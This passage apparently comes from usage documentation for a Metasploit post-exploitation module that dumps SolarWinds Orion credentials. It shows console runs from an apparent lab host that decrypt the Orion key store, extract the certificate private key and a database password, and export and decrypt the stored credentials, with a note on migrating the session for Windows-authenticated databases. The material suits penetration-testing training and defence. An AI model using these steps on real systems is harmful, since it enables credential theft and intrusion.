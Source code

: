 ```
[*] Extract SolarWinds Orion SSL Certificate Private Key ...
[+] Compressed size: 1344
[+] Compressed size: 1736
[+] Extracted SolarWinds Orion RSA private key for LocalMachine certificate with SHA1 thumbprint C3D5248B978C8D161DA0267C1DE946B1FDE4E7D2
[+] SolarWinds Orion RSA Key: /root/.msf4/loot/20221118093908_default_192.168.101.125_orionssl_000289.key
[*] Decrypt SWNetPerfMon.DB ...
[+] Compressed size: 2064
[+] SolarWinds Orion SQL Database Connection Configuration:
[+]     Instance Name: tcp:cornflakes.cesium137.io
[+]     Database Name: SolarWindsOrion
[+]     Database User: orion
[+]     Database Pass: 3qmEixYNZsElaE0JR0vt9c1NwO
[*] Performing export of SolarWinds Orion SQL database to CSV file
[*] Export SolarWinds Orion DB ...
[+] 10 rows exported, 6 unique CredentialIDs
[+] Encrypted SolarWinds Orion Database Dump: /root/.msf4/loot/20221118093912_default_192.168.101.125_solarwinds_orion_822163.txt
[*] Performing decryption of SolarWinds Orion SQL database
[+] 10 rows loaded, 6 unique CredentialIDs
[*] Process SolarWinds Orion DB ...
[+] 10 rows processed
[*] 10 rows recovered: 6 plaintext, 4 decrypted (0 blank)
[*] 10 rows written (0 blank rows withheld)
[+] 6 unique CredentialID records recovered
[+] Decrypted SolarWinds Orion Database Dump: /root/.msf4/loot/20221118093912_default_192.168.101.125_solarwinds_orion_067745.txt
[*] Post module execution completed
msf post(windows/gather/credentials/solarwinds_orion_dump) >
```

Host with MSSQL SSPI authentication configured for external database - use `dump` to
extract keys, then migrate the session PID to an identity with permission to log on to
the SQL server. Perform `export` to acquire the encrypted data, then perform `decrypt`
to produce the plaintext:

```
msf exploit(multi/handler) > use post/windows/gather/credentials/solarwinds_orion_dump
msf post(windows/gather/credentials/solarwinds_orion_dump) > set session 1
session => 1
msf post(windows/gather/credentials/solarwinds_orion_dump) > dump

[*] Hostname WINNING IPv4 192.168.101.125
[*] SolarWinds Orion Build 2020.2.65120.0
[*] SolarWinds Orion Install Path: C:\Program Files (x86)\SolarWinds\Orion\
[*] Init SolarWinds Crypto ...
[*] Decrypt SolarWinds CryptoHelper Keystorage ...
[+] Compressed size: 2108
[+] Orion AES Encryption Key
[+]     HEX: 2F627B78981DEADE0447CC7BDDEADE4E84FCB96AF1C6DEAD621F28547E93A82
[*] Extract SolarWinds Orion SSL Certificate Private Key ...
[+] Compressed size: 1344
[+] Compressed size: 1748
[+] Extracted SolarWinds Orion RSA private key for LocalMachine certificate with SHA1 thumbprint C3D5248B978C8D161DA0267C1DE946B1FDE4E7D2
[+] SolarWinds Orion RSA Key: /root/.msf4/loot/20221118091221_default_192.168.101.125_orionssl_457287.key
[*] Decrypt SWNetPerfMon.DB ...
[+] SolarWinds Orion SQL Database Connection Configuration:
[+]     Instance Name: tcp:cornflakes.cesium137.io
[+]     Database Name: SolarWindsOrion
[+]     Database User: (Windows Integrated)
[!] The database uses Windows authentication
```